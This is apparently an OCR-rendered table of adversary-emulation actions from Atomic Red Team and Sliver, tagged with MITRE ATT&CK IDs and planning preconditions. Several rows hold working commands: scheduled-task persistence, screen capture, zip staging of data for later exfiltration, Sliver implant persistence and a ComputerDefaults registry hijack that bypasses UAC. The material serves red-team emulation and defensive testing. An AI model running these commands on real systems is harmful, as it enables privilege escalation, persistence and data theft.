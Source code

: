 | 42f53695-ad4a-4546-abb6-7d837f644a71 | Scheduled task Local | \['T1053.005'\] | ART | \['windows'\] | \['Execution', 'Persistence', 'Privilege Escalation'\] | \['Scheduled Task/Job: Scheduled Task'\] | Upon successful execution, cmd.exe will create a scheduled task to spawn cmd.exe at 20:10.<br> | {'executor': 'Command Prompt Executor', 'command': 'SCHTASKS /Create /SC ONCE /TN spawn /TR #{task_command} /ST #{time}\n'} | {'task_command': {'description': 'What you want to execute', 'type': 'string', 'default': 'C:\\windows\\system32\\cmd.exe'}, 'time': {'description': 'What time 24 Hour', 'type': 'string', 'default': 1210}} | \['(os_windows ?target - host)', '(command_prompt ?executor - executor ?target - host)', '(file_exists ?task_command - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_time ?file - file ?target - host)'\] |
| f7f31777-1bbf-4ddc-b7a1-af9f46a5299b | Obtain a persistent Sliver Executor | \[None\] | Manual | \['windows', 'linux', 'macos'\] | \['Persistence'\] | \[None\] | Obtain the persistency of Sliver Executor via scheduled payload file execution.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?f - file)', {'operator': 'or', 'operands': \['(file_execution_at_time ?f - file ?target - host)', '(file_execution_at_startup ?f - file ?target - host)'\]}, '(unallocated ?s - executor)'\] | \['(persistent_sliver_session ?s - executor ?target - host)', '~(unallocated ?s - executor)'\] |
| e9313014-985a-48ef-80d9-cde604ffc187 | Windows Screen Capture (CopyFromScreen) | \['T1113'\] | ART | \['windows'\] | \['Collection'\] | \['Screen Capture'\] | Take a screen capture of the desktop through a call to the \[Graphics.CopyFromScreen\] .NET API.<br><br>\[Graphics.CopyFromScreen\]: https://docs.microsoft.com/en-us/dotnet/api/system.drawing.graphics.copyfromscreen<br> | {'executor': 'Powershell Executor', 'command': 'Add-Type -AssemblyName System.Windows.Forms\n$screen = \[Windows.Forms.SystemInformation\]::VirtualScreen\n$bitmap = New-Object Drawing.Bitmap $screen.Width, $screen.Height\n$graphic = \[Drawing.Graphics\]::FromImage($bitmap)\n$graphic.CopyFromScreen($screen.Left, $screen.Top, 0, 0, $bitmap.Size)\n$bitmap.Save("#{output_file}")\n'} | {'output_file': {'description': 'Path where captured results will be placed', 'type': 'path', 'default': '$env:TEMP\\T1113.png'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)'\] | \['(screenshot_data_saved ?file - file ?target - host)', '(file_exists ?output_file - path ?file - file ?target - host)', '(png_file ?file - file)'\] |
| 2e8f1a9c-0b5e-4a7c-b6d4-9a8b2d3c5f1e | Create Directory | \['T1106'\] | Sliver | \['windows', 'linux'\] | \['Persistence'\] | \['File System Permissions Modification'\] | The `mkdir` command creates a new directory on the target system. | {'executor': 'Sliver Executor', 'command': 'mkdir (#{remote_path},#{SessionID})'} | {'remote_path': {'description': 'Full path of the directory to create'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(dir_exists ?path - path ?dir - dir ?target - host)'\] |
| a57fbe4b-3440-452a-88a7-943531ac872a | Zip a Folder with PowerShell for Staging in Temp | \['T1074.001'\] | ART | \['windows'\] | \['Collection'\] | \['Data Staged: Local Data Staging'\] | Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip<br>was placed in the temp directory.<br> | {'executor': 'Powershell Executor', 'command': 'Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force\n'} | {'output_file': {'description': 'Location to save zipped file or folder', 'type': 'path', 'default': None}, 'input_file': {'description': 'Location of file or folder to zip', 'type': 'path', 'default': None}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(dir_exists ?input_file - path ?dir - dir ?target - host)'\] | \['(dir_data_saved ?dir - dir ?file - file)', '(file_exists ?output_file - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 3c51abf2-44bf-42d8-9111-dc96ff66750f | Bypass UAC using ComputerDefaults (PowerShell) | \['T1548.002'\] | ART | \['windows'\] | \['Defense Evasion', 'Privilege Escalation'\] | \['Abuse Elevation Control Mechanism: Bypass User Account Control'\] | PowerShell code to bypass User Account Control using ComputerDefaults.exe on Windows 10<br>Upon execution administrative command prompt should open<br> | {'executor': 'Powershell Executor', 'command': 'New-Item "HKCU:\\software\\classes\\ms-settings\\shell\\open\\command" -Force\nNew-ItemProperty "HKCU:\\software\\classes\\ms-settings\\shell\\open\\command" -Name "DelegateExecute" -Value "" -Force\nSet-ItemProperty "HKCU:\\software\\classes\\ms-settings\\shell\\open\\command" -Name "(default)" -Value "#{executable_binary}" -Force\nStart-Process "C:\\Windows\\System32\\ComputerDefaults.exe"\n'} | {'executable_binary': {'description': 'Binary to execute with UAC Bypass', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe', 'required': True}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?executable_binary - path ?file - file ?target - host)', {'operator': 'or', 'operands': \['(exe_file ?file - file)'\]}\] | \['(file_executed_as_root ?file - file ?target - host)'\] |